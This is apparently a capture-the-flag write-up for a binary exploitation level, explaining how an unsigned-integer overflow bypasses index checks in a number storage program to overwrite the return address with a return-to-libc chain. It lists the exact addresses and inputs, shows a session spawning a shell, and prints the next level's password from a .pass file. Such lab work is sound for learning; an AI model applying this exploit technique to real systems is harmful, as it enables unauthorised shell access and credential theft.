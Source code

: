 # LEVEL 07

## EXPLANATIONS

### BINARY BEHAVIOR

- functions : store_number, read_number, main
- program asks for inputs in 3 flavors :

  - store : asks number and index
  - read : asks index and outputs number
  - quit => exits the program

- large number stores int max
  - numbers are considered unsigned int
- large index outputs error

### EXPLOIT STRATEGY

- return to libc with store function.
- write on main sEIP => 0xffffce7c
- start buf store : 0xffffccb4

  - 456 bytes between the two addresses
  - stores at index _ 4 => 114 _ 4 == 456
  - 114 is protected by % 3 protection on provided indexes
  - exploit with unsigned int overflow
    - 4294967295 / 4 == 1073741823
    - 4294967295 % 4 == 3
      - => (1073741823 + 114) \* 4 = 4294967292 + 456 = 4294967748
      - 4294967748 - 4294967295 (== overflow) = 452 (not 453 because 1st value of the overflow is 0)
        - this overflow is insufficient due to remainder of max unsigned division by 4
      - => (1073741823 + 115) \* 4 = 4294967292 + 460 = 4294967752
      - 4294967752 - 4294967295 (== overflow) = 456

- Find addresses of :

  - Index to overflow 114 : 1073741938
  - system : 0xf7e6aed0 : 4159090384
  - exit : 0xf7e5eb70 : 4159040368
  - "/bin/sh" : 0xf7f897ec : 4160264172

- overwrite sEIP

### RUN COMMAND
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384  address system
 Index: 1073741938   overflow UINT -> 114
 Completed store command successfully
Input command: store
 Number: 4159040368  address of exit
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172 address of "/bin/sh"
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd ../level09
/bin/sh: 2: cd: can't cd to ../level09
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
